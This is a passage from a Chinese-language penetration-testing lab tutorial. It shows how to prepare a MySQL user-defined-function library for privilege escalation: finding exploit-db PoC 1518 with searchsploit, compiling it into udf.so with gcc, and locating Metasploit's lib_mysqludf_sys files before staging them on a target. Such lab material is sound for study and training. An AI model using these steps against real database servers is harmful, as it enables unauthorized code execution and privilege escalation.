 ### 使用metasploit自带的动态链接库

说明：

- 这里也可以使用exploit中的poc脚本进行生成，
- [脚本链接](https://www.exploit-db.com/exploits/1518)是
- 也可以直接在kali里面搜索这个POC

```
searchsploit 1518
```

![image-20220301192654254](https://gitee.com/xxb667/img/raw/master/img/image-20220301192654254.png)

```
编译生成so文件
gcc -g -shared -Wl,-soname,udf.so -o udf.so 1518.c -lc
```

```
-g 生成调试信息
-shared 创建一个动态链接库，输入文件可以是源文件、汇编文件或者目标文件

-Wl选项告诉编译器将后面的参数传递给链接器。

-soname则指定了动态库的soname(简单共享名，Short for shared object name)

soname的关键功能是它提供了兼容性的标准：

当要升级系统中的一个库时，并且新库的soname和老库的soname一样，用旧库链接生成的程序使用新库依然能正常运行。这个特性使得在Linux下，升级使得共享库的程序和定位错误变得十分容易。-o 生成的文件
-lc -l 库 c库名
```

注意：mysql的动态链接库是加密过的，需要解密才能使用。搜索一下metasploit动态链接库文件在哪里

#### 寻找动态链接库

```
locate metasploit-framework|grep data/exploits/mysql
```

这里要使用lib_mysqludf_sys_64.so

```
/usr/share/metasploit-framework/data/exploits/mysql
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_32.dll
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_32.so
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.so

```

![image-20220301192926735](https://gitee.com/xxb667/img/raw/master/img/image-20220301192926735.png)

## 3.5 下载动态链接库到靶机

